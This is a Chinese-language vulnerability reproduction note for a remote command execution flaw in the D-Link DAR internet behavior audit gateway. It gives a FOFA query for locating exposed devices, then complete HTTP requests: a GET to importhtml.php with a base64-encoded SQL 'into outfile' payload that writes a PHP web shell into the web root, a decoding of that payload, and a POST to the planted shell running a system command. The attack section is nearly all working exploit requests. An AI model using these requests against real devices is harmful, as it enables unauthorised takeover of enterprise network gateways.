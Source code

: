# D-Link DAR上网行为审计网关 importhtml远程命令执行漏洞

# 一、漏洞简介
D-Link DAR上网行为审计网关可以为企业提供完善的互联网访问行为管理解决方案，全面保护企业的运营效率和信息安全。DAR系列产品提供全面的应用识别和控制能力、精细化的应用层带宽管理能力、分类化的海量URL过滤能力、详尽的上网行为审计能力以及丰富的上网行为报表，从而帮助企业快速构建可视化、低成本以及高效安全的商业网络。D-Link上网行为管理系统存在远程代码执行漏洞，攻击者通过漏洞可以获取服务器权限。

# 二、影响版本
+ D-Link DAR上网行为审计网关

# 三、资产测绘
+ fofa`"mask.style.visibility" && title="D-Link"`
+ 特征

![1701832949924-a46cf09a-99f8-4b58-8e99-12b6d2b32a9d.png](./img/nel9FO4sfySh_L2i/1701832949924-a46cf09a-99f8-4b58-8e99-12b6d2b32a9d-620160.png)

# 四、漏洞复现
通过poc写入文件

```plain
GET /importhtml.php?type=exporthtmlmail&tab=tb_RCtrlLog&sql=c2VsZWN0IDB4M2MzZjcwNjg3MDIwNjU2MzY4NmYyMDczNzk3Mzc0NjU2ZDI4MjQ1ZjUwNGY1MzU0NWIyMjYzNmQ2NDIyNWQyOTNiM2YzZSBpbnRvIG91dGZpbGUgJy91c3IvaGRkb2NzL25zZy9hcHAvaGVsbG9kbGluay5waHAn HTTP/1.1
Host: xx.xx.xx.xx
Cookie: PHPSESSID=8d3887c7a401d2f1bc1a58631fcfa6e7
Accept: text/html, application/xhtml+xml, image/jxr, */*
Accept-Language: zh-Hans-CN,zh-Hans;q=0.8,en-IE;q=0.6,en-US;q=0.4,en;q=0.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; Touch; rv:11.0) like Gecko
Accept-Encoding: gzip, deflate
Connection: close
```

![1701833120150-01db148e-b38f-49f0-b719-9df0ca2e651a.png](./img/nel9FO4sfySh_L2i/1701833120150-01db148e-b38f-49f0-b719-9df0ca2e651a-347119.png)

其中`c2VsZWN0IDB4M2MzZjcwNjg3MDIwNjU2MzY4NmYyMDczNzk3Mzc0NjU2ZDI4MjQ1ZjUwNGY1MzU0NWIyMjYzNmQ2NDIyNWQyOTNiM2YzZSBpbnRvIG91dGZpbGUgJy91c3IvaGRkb2NzL25zZy9hcHAvaGVsbG9kbGluay5waHAn`是`select 0x3c3f706870206563686f2073797374656d28245f504f53545b22636d64225d293b3f3e into outfile '/usr/hddocs/nsg/app/hellodlink.php'`的`base64`编码。

`0x3c3f706870206563686f2073797374656d28245f504f53545b22636d64225d293b3f3e`为十六进制编码的字符串，表示以下代码

```plain
<?php echo system($_POST['cmd']);?>
```

写入文件位置

```plain
POST /app/hellodlink.php HTTP/1.1
Host: xx.xx.xx.xx
Cookie: PHPSESSID=8d3887c7a401d2f1bc1a58631fcfa6e7
Accept: text/html, application/xhtml+xml, image/jxr, */*
Accept-Language: zh-Hans-CN,zh-Hans;q=0.8,en-IE;q=0.6,en-US;q=0.4,en;q=0.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; Touch; rv:11.0) like Gecko
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

cmd=id
```

![1701833137853-b43067ed-7c29-4c0d-98cd-f3bb1eb417dc.png](./img/nel9FO4sfySh_L2i/1701833137853-b43067ed-7c29-4c0d-98cd-f3bb1eb417dc-690075.png)



> 更新: 2024-02-29 23:57:12  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/qh15q6k18whqbdt8>